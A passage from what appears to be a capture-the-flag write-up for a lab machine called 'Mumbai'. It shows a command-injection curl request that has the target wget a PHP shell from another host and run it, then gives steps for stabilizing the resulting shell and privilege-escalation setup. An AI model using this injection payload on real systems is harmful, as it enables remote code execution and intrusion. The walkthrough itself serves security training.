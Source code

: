Finally, in a 3rd terminal, trigger the RCE: 
```bash
curl -d "query=http://10.10.10.13/wordpress; wget http://10.10.10.12/shell.php; php shell.php" http://10.10.10.13:8000/test.php
```

![screenshot](/assets/images/mumbai_apiuser.PNG)

## Privilege Escalation

Excellent! Now we have shell on the box. One thing I always like to try is stabilize the shell in case I need to do something important like interacting with a service. There are a number of different ways this can be done, but in this case I'll do the following:

+	Spawn a PTY with python
+	Modify terminal settings with stty and hit CTRL+Z
+	Run "stty -raw echo" on Kali
+	Bring the shell to the foreground
+	Reset the terminal

All this combined should give us a fully interactive shell with tab completion, etc. We will have to fix the path first. Remember from the .bashrc the current PATH environment variable is /api:/usr/local/bin. We will need to include /bin, /usr/bin, etc. to have some more functionality. We'll also need to export the TERM environment variable to something like "linux" or "xterm-256color" to be able to use "clear" and the like. 

```bash
export TERM=linux
export PATH=/bin:/usr/bin:/usr/local/sbin:/sbin:/usr/sbin:$PATH
stty rows 255 columns 255
CTRL+Z
stty -raw echo
fg
reset
```

![screenshot](/assets/images/mumbai_user.PNG)
